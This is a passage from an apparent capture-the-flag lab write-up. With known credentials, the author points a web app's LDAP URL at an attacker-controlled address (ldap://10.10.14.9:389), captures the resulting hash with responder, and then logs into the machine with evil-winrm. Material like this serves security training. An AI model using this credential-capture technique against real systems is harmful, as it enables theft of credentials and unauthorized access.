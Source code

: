 We have the credentials for this, so let's try to edit the configurations. WIthin the LDAP config, we can change the LDAP URL:

<figure><img src="../../.gitbook/assets/image (746).png" alt=""><figcaption></figcaption></figure>

This looks vulnerable to some hash capturing via `responder`. I replaced the LDAP URL with `ldap://10.10.14.9:389` and then clicked on 'Test LDAP Profile', and `responder` captured a hash:

<figure><img src="../../.gitbook/assets/image (747).png" alt=""><figcaption></figcaption></figure>

With this, we can `evil-winrm` in to the machine:

<figure><img src="../../.gitbook/assets/image (748).png" alt=""><figcaption></figcaption></figure>
